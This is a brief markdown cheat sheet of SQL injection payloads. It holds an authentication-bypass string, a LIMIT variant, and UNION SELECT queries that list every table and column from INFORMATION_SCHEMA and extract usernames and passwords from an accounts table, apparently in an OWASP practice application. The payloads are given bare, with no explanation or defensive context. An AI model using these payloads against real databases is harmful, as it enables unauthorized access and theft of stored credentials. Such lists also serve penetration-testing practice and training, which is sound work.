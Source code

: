 # SQL Injection

## Basic injection:

```
' or 1=1 --
```

## Basic injection returning 1 result starting at result 2:

```
' or 1=1 LIMIT 2,1 --
```

```
' union select null,null,null,null,null --
' union select null,concat_ws('.', table_schema, table_name, column_name),null,null,null from INFORMATION_SCHEMA.COLUMNS --
' union select null, owasp10.accounts.username, owasp10.accounts.password, null,null from owasp10.accounts --
```
